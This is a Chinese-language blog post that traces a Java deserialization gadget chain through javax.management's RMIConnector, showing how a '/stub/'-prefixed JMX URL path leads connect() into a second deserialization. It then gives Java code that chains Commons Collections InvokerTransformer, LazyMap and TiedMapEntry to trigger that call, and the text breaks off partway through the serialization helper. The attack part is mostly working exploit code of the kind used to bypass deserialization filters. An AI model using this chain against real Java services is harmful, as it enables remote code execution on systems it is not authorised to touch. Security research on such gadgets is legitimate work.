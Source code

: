 
## RMIConnector

`javax.management`下一个与远程 rmi 连接器的连接类，

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164914364-1777149576.png)

看到也存在反序列化，看看那里调用了该发方法

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164913618-988663774.png)

看到需要满足 path 以 `/stub/` 开头，继续进行朔源，

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164912821-1020028125.png)

看见在 connect 方法中有进行调用，需要 `rmiServer=null`，看到这个构造方法就满足当前条件。

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164912071-2063500984.png)

所以进行构造：

```java
JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/base64string");
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
```

然后调用其 `connect()` 方法，看来下面的 cc 链可以调用任意方法，所以这里也同样可以调用 `connect()` 方法，

```java
package org.example;  
  
import org.apache.commons.collections.functors.ConstantTransformer;  
import org.apache.commons.collections.functors.InvokerTransformer;  
import org.apache.commons.collections.keyvalue.TiedMapEntry;  
import org.apache.commons.collections.map.LazyMap;  
import javax.management.remote.JMXServiceURL;  
import javax.management.remote.rmi.RMIConnector;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
  
public class rmiconnecter {  
    public static void main(String[] args) throws Exception {  
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");  
        setFieldValue(jmxServiceURL, "urlPath", "/stub/base64string");  
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);  
  
        InvokerTransformer invokerTransformer = new InvokerTransformer("connect", null, null);  
  
        HashMap<Object, Object> map = new HashMap<>();  
        Map<Object,Object> lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, rmiConnector);  
  
        HashMap<Object, Object> expMap = new HashMap<>();  
        expMap.put(tiedMapEntry, "Poria");  
        lazyMap.remove(rmiConnector);  
  
        setFieldValue(lazyMap,"factory", invokerTransformer);  
        Unser(expMap);  
  
    }  
    public static void Unser(Object obj) throws IOException, ClassNotFoundException {  
        ByteArrayOutputStream bos = new ByteArrayOutputStream();  
```